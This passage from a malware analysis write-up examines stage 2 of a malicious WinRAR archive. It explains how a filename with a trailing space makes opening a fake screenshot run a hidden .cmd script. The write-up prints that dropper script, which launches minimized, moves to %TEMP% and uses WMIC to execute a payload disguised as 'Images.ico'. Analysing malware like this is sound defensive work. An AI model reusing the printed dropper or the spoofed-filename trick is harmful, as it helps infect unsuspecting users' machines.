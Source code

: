 # Stage 2 - Powershell script and `Images.ico`

The malicious WinRAR sample contains a file called `Screenshot_05-04-2023.jpg` and a folder called `Screenshot_05-04-2023.jpg ` (with a space at the end). This space is what is described above: when `Screenshot_05-04-2023.jpg` (without a space) is opened, WinRAR will go into the directory by the same name with the space, and open a file at the following path: `Screenshot_05-04-2023.jpg /Screenshot_05-04-2023.jpg .cmd`. This file contains:

```powershell
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
cd %TEMP% 
for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do for /F "delims=" %%G in ('dir /b /s "Images.ico"') do WMIC process call create "%%~G"&&"%%~K"&&exit
exit
```

Formatted to make it easier to read:

```powershell
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
cd %TEMP% 
for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do
	for /F "delims=" %%G in ('dir /b /s "Images.ico"') do
		WMIC process call create "%%~G"&&"%%~K" && exit
exit
```

This Powershell script starts a command prompt in minimized mode, `cd`'s into the `%TEMP%` directory, then loops over the files named `Screenshot_05-04-2023.jpg` and `Images.ico`. [`WMIC`](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmic) is called, spawning new processes that execute `Images.ico`.

Loading `Images.ico` into **DIE** (Detect-It-Easy) reveals some valuable information.
